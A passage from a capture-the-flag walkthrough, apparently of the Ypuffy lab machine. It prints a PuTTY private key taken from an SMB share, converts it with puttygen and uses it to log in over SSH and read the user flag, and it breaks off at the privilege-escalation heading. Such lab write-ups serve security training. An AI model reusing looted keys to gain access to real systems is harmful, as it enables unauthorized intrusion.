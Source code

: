 ```
ivAMf2AqY5e1adjpOfo6TwmB0Cyx0rIYMvsog3HnqyHcVR/Ufw==
Private-Lines: 14
AAABAH0knH2xprkuycHoh18sGrlvVGVG6C2vZ9PsiBdP/5wmhpYI3Svnn3ZL8CwF
VGaXdidhZunC9xmD1/QAgCgTz/Fh5yl+nGdeBWc10hLD2SeqFJoHU6SLYpOSViSE
cOZ5mYSy4IIRgPdJKwL6NPnrO+qORSSs9uKVqEdmKLm5lat9dRJVtFlG2tZ7tsma
hRM//9du5MKWWemJlW9PmRGY6shATM3Ow8LojNgnpoHNigB6b/kdDozx6RIf8b1q
Gs+gaU1W5FVehiV6dO2OjHUoUtBME01owBLvwjdV/1Sea/kcZa72TYIMoN1MUEFC
3hlBVcWbiy+O27JzmDzhYen0Jq0AAACBANTBwU1DttMKKphHAN23+tvIAh3rlNG6
m+xeStOxEusrbNL89aEU03FWXIocoQlPiQBr3s8OkgMk1QVYABlH30Y2ZsPL/hp6
l4UVEuHUqnTfEOowVTcVNlwpNM8YLhgn+JIeGpJZqus5JK/pBhK0JclenIpH5M2v
4L9aKFwiMZxfAAAAgQDG+o9xrh+rZuQg8BZ6ZcGGdszZITn797a4YU+NzxjP4jR+
qSVCTRky9uSP0i9H7B9KVnuu9AfzKDBgSH/zxFnJqBTTykM1imjt+y1wVa/3aLPh
hKxePlIrP3YaMKd38ss2ebeqWy+XJYwgWOsSw8wAQT7fIxmT8OYfJRjRGTS74QAA
AIEAiOHSABguzA8sMxaHMvWu16F0RKXLOy+S3ZbMrQZr+nDyzHYPaLDRtNE2iI5c
QLr38t6CRO6zEZ+08Zh5rbqLJ1n8i/q0Pv+nYoYlocxw3qodwUlUYcr1/sE+Wuvl
xTwgKNIb9U6L6OdSr5FGkFBCFldtZ/WSHtbHxBabb0zpdts=
Private-MAC: 208b4e256cd56d59f70e3594f4e2c3ca91a757c9
```

To convert it to the OpenSSH format, I used the `puttygen` utility:

```
root@ragingunicorn:~# puttygen /usr/share/smbmap/10.10.10.107-alice_my_private_key.ppk -O private-openssh -o alice_rsa
root@ragingunicorn:~# file alice_rsa
alice_rsa: PEM RSA private key
```

We can log in and get the user flag at this point:

```
root@ragingunicorn:~# ssh -i alice_rsa alice1978@10.10.10.107
The authenticity of host '10.10.10.107 (10.10.10.107)' can't be established.
ECDSA key fingerprint is SHA256:oYYpshmLOvkyebJUObgH6bxJkOGRu7xsw3r7ta0LCzE.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.107' (ECDSA) to the list of known hosts.
OpenBSD 6.3 (GENERIC) #100: Sat Mar 24 14:17:45 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

ypuffy$ cat user.txt
acbc06<redacted>
```

### Priv esc

The home directory contains an interesting user `userca`:
